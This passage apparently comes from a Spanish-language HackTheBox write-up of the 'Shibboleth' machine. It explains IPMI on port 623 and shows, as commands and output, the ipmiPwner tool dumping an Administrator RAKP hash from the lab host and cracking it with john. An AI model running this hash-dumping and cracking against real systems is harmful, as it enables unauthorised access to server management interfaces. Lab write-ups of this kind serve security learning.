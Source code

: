 Vemos que el puerto **`623`** está abierto, busquemos en Google información sobre este puerto: **`port 623 asf-rmcp`**

![UDP Port](/assets/images/hackthebox/machines/shibboleth/udp.png)

¿Qué es [IPMI](https://www.ibm.com/docs/es/power9?topic=ipmi-overview)?

> La IPMI (Intelligent Platform Management Interface) es una interfaz de gestión de hardware basada en mensajes estandarizados.
> En el núcleo de IPMI hay un chip de hardware conocido como BMC (Baseboard Management Controller - controlador de gestión de placa base) o MC (Management Controller - controlador de gestión).

## Fase de Explotación

En la página [HackTricks](https://book.hacktricks.xyz/pentesting/623-udp-ipmi) se detalla la vulnerabilidad que podemos tratar de explotar.
Necesitamos instalar la herramienta **`ipmitool`**:

```console
p3ntest1ng:~$ sudo apt update && sudo apt install ipmitool
```

Para agilizar el proceso, he buscado en Google un exploit ya desarrollado que automatice esta parte:

![exploit](/assets/images/hackthebox/machines/shibboleth/exploit.png)

Clonamos el repositorio en nuestra máquina y ejecutamos la herramienta:

```console
p3ntest1ng:~$ git clone https://github.com/c0rnf13ld/ipmiPwner
Clonando en 'ipmiPwner'...
remote: Enumerating objects: 34, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 34 (delta 14), reused 27 (delta 14), pack-reused 7
Recibiendo objetos: 100% (34/34), 16.79 KiB | 781.00 KiB/s, listo.
Resolviendo deltas: 100% (14/14), listo.
```

Instalamos los requisitos necesarios para la herramienta con ayuda del script que viene incluído **`requirements.sh`**

```console
p3ntest1ng:~$ cd ipmiPwner && sudo ./requirements.sh
```

Y una vez finalice ya podemos utilizar la herramienta, siguiendo la ayuda ejecutamos tal que así:

```console
p3ntest1ng:~$ sudo python3 ipmipwner.py --host 10.10.11.124 -c john -oH hash -pW /usr/share/wordlists/rockyou.txt
[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[*] Brute Forcing
[*] Number of retries: 2
[*] The username: Administrator is valid                                                                                    
[*] Saving hash for user: Administrator in file: "hash"
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a0822b00008e7cfd7387a9898c956341dee3a91dee89ab5adf605bf7dda40edaae45dc0709a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$cee947cb97cc31372da0ac3fe395bc6a3759576c
[*] Starting the hash cracking with john

Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (10.10.11.124 Administrator)
```